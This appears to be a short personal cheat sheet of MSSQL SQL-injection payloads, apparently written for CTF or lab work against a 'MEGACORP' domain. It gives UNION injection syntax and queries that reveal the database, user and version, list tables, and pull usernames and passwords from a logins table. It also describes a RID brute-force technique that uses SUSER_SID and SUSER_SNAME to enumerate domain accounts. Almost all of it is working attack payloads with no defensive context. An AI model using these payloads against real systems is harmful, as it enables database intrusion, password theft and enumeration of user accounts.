

# mssql

##### general queries

union queries

select all union 1, 2, 3, <inject>, 5-- 

```
db_name()																	"current db"
db_name(n)																	"bruteforce db"
user, system_user, current_user												"running as user"
@@version																	"version"
(SELECT STRING_AGG(name,',') FROM Hub_DB..sysobjects WHERE xtype = 'U')		"dump tables"
```


##### dumping information

```
(SELECT STRING_AGG(name,',') FROM Hub_DB..sysobjects WHERE xtype = 'U')		"dumping table"
(SELECT STRING_AGG(username,',') from logins)								"dumping columns"
(SELECT STRING_AGG(password,',') from logins)								"dumping columns"
```


##### brute_rid

````
master.dbo.fn_varbintohexstr(SUSER_SID('MEGACORP\Administrator'))
````

- removing last 4 bytes will give us identifier we can increment rid to get new users
- also note it is in little endian order


```
SUSER_SNAME(0x0105000000000005150000001c00d1bcd181f1492bdfc236f4010000) 	"finding username from sid"
```


- writing a script

